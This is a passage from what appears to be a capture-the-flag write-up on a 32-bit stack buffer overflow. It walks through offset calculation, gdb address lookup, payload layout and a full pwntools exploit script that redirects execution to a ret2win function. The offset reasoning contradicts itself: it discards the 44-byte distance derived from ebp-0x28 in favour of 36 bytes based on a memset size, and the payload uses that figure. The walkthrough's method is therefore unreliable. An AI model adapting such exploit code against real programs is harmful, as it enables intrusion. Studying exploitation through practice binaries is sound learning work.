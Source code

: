 
### Step 8: Calculate the Offset

**Distance from buffer start to return address**:
- Buffer start: `ebp-0x28` (ebp - 40)
- Return address: `ebp+4`
- Distance: `(ebp+4) - (ebp-40) = 44 bytes`

**But wait!** Let's double-check with the actual buffer size:
- The buffer is initialized with `memset(&buf, 0, 32)`
- So buffer is only 32 bytes, not 40
- Distance: 32 bytes (buffer) + 4 bytes (saved ebp) = 36 bytes

## Crafting the Exploit

### Step 9: Find ret2win Address
```bash
(gdb) print ret2win
```
**Output**: `$1 = {<text variable, no debug info>} 0x804862c <ret2win>`

**Our target address**: `0x804862c`

### Step 10: Build the Payload

**Payload Structure**:
```
[32 bytes padding] + [4 bytes saved EBP] + [ret2win address]
│                 │   │                 │   │               │
│     'A' * 32    │ + │     'BBBB'      │ + │  0x804862c    │
│                 │   │                 │   │               │
└─ Fill buffer ───┘   └─ Overwrite EBP ─┘   └─ New ret addr ┘
```

### Step 11: Python Exploit Script

```python
#!/usr/bin/env python3
from pwn import *

# Set up the target (local process or remote)
# For local testing:
p = process('./ret2win32')
# For remote: p = remote('host', port)

# Target address (ret2win function)
ret2win_addr = 0x804862c

# Build the payload
padding = b'A' * 32           # Fill the buffer
fake_ebp = b'B' * 4           # Overwrite saved EBP (can be anything)
ret_addr = p32(ret2win_addr)  # Overwrite return address

payload = padding + fake_ebp + ret_addr

# Send the payload
print("Sending payload...")
p.sendline(payload)

# Receive all output (the flag!)
print("Received:")
print(p.recvall().decode())

p.close()
```
